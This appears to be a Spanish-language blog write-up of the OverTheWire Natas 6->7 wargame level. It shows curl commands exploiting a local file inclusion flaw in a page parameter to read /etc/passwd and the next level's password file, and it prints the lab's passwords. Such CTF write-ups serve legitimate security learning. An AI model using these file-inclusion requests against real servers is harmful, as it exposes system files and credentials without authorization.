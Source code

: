 ```yaml
---
title: OverTheWire - Natas 6 -> 7 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 6 -> 7 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/
```

![](/assets/images/images-otw-natas/natas6->7-1.png)

Observamos 2 links y un hint que nos indica donde se ubica la contraseña de natas8 en el servidor.

![](/assets/images/images-otw-natas/natas6->7-2.png)

Si vamos a los links no vemos nada interesante.

![](/assets/images/images-otw-natas/natas6->7-3.png)


Si sustituimos el valor `about` por el valor del archivo `/etc/passwd` confirmamos que `index.php` es vulnerable a **LFI**.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd'
```

![](/assets/images/images-otw-natas/natas6->7-5.png)

Si ahora escribimos la ruta absoluta hacia la contraseña de natas8 `/etc/natas_webpass/natas8` obtenemos la contraseña.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

![](/assets/images/images-otw-natas/natas6->7-4.png)

# Contraseña
---

`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

---

## [Anterior](/blog/level-5-6)
## [Siguiente](/blog/level-7-8)